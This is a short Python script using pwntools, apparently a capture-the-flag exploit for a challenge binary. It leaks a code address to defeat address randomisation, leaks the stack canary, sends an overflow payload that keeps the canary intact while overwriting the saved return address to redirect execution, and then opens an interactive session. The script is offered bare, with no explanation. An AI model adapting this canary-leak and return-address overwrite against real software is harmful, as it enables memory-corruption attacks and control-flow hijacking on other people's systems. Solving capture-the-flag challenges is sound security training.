 ```python
p.recvuntil(b'Content: ')
exe_leak = u64(p.recv(6)+b'\0\0')
exe.address = exe_leak - exe.sym['main']
info("exe leak: " + hex(exe_leak))
info("exe base: " + hex(exe.address))

leak_canary = stack_leak-0x12f
edit_title(3,p64(leak_canary)[0:6]) #350
show(1)
p.recvuntil(b'Content: ')
canary = u64(b'\0' + p.recv(7))
info("canary: " + hex(canary))

payload = b'a'*0x48 + p64(0xffff)
edit_title(1,payload)

payload = b'b'*0x408 + p64(canary) + b'a'*8 + p64(exe.sym['read_function'] + 5)

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Index: ', str(3))
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'title: ', payload)


p.interactive()
```


